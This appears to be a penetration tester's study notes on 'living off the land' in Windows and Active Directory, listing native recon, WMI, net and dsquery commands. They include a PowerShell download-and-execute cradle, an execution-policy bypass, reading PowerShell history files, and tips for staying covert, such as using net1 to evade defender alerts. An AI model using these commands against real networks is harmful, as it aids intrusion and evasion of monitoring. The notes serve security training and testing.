 # Living Off the Land

## Introduction

* "Living off the land" can be <mark style="color:yellow;">defined as using tools native to Windows and AD</mark>
* This can also be a much more <mark style="color:yellow;">stealthy approach</mark>!

## Environment Commands for Host & Network Recon

```
hostname

[System.Environment]::OSVersion.Version

wmic qfe get Caption,Description,HotFixID,InstalledOn

ipconfig /all

set %USERDOMAIN%

set %logonserver%
```

## Harnessing PowerShell

### Quick Checks

```
Get-Module

Get-ExecutionPolicy -List

Set-ExecutionPolicy Bypass -Scope Process

Get-Content C:\Users\<USERNAME>\AppData\Roaming\Microsoft\Windows\Powershell\PSReadline\ConsoleHost_history.txt

Get-ChildItem Env: | ft Key,Value

powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('URL to download the file from'); <follow-on commands>"
```

## Checking Defenses

### Firewall Checks

```
netsh advfirewall show allprofiles
```

### Windows Defender Check (from CMD.exe)

```
sc query windefend
```

### Get-MpComputerStatus

```
Get-MpComputerStatus
```

### Am I Alone?

* <mark style="color:yellow;">This is very useful for finding out if you are the only one logged in or not</mark>
* This is useful because your actions can be detected by others when moving covertly

```
qwinsta
```

## Network Information

```
arp -a 

ipconfig /all

route print

netsh advfirewall show state
```

## Windows Management Instrumentation (WMI)

* <mark style="color:yellow;">A.K.A. WMI is a scripting engine that is widely used within Windows enterprise environments to retrieve information and to run administrative tasks on local and remote hosts</mark>

### WMI Checks

<mark style="color:yellow;">Prints the patch level and description of the Hotfixes applied:</mark>

```
wmic qfe get Caption,Description,HotFixID,InstalledOn
```

<mark style="color:yellow;">Displays basic host information to include any attributes within the list:</mark>

```
wmic computersystem get Name,Domain,Manufacturer,Model,Username,Roles /format:List
```

<mark style="color:yellow;">A listing of all processes on host:</mark>

```
wmic process list /format:list
```

<mark style="color:yellow;">Displays information about the Domain and Domain Controllers:</mark>

```
wmic ntdomain list /format:list
```

<mark style="color:yellow;">Displays information about all local accounts and any domain accounts that have logged into the device:</mark>

```
wmic useraccount list /format:list
```

<mark style="color:yellow;">Information about all local groups:</mark>

```
wmic group list /format:list
```

<mark style="color:yellow;">Dumps information about any system accounts that are being used as service accounts:</mark>

```
wmic sysaccount list /format:list
```

### WMI Cheat Sheet

{% embed url="https://gist.github.com/xorrior/67ee741af08cb1fc86511047550cdaf4" %}

## Net Commands

* These commands can be extremely beneficial to use when attempting to enumerate information from the domain
* <mark style="color:yellow;">These commands can be used to query the local host as well as remote hosts</mark>

<mark style="color:yellow;">With Net, we can list information such as</mark>:&#x20;

* Local and domain users
* Groups
* Hosts
* Specific users in groups
* Domain Controllers
* Password requirements

<mark style="color:red;">WARNING</mark>: net.exe commands are often monitored by EDR solutions and can quickly reveal compromise!

<figure><img src="../../.gitbook/assets/image (1) (1) (7) (1).png" alt=""><figcaption></figcaption></figure>

### Net Commands Trick

* <mark style="color:yellow;">Use net1 instead of net to execute the same functions without setting off alarms to defenders!</mark>

## DSQuery

Obtain a list of disabled users with administrative access and append the -attr to display the description associated with that user:&#x20;

```
dsquery * -filter "(&(objectCategory=person)(objectClass=user)(userAccountControl:1.2.840.113556.1.4.803:=2))"  -attr description
```

{% embed url="https://social.technet.microsoft.com/wiki/contents/articles/2195.active-directory-dsquery-commands.aspx" %}
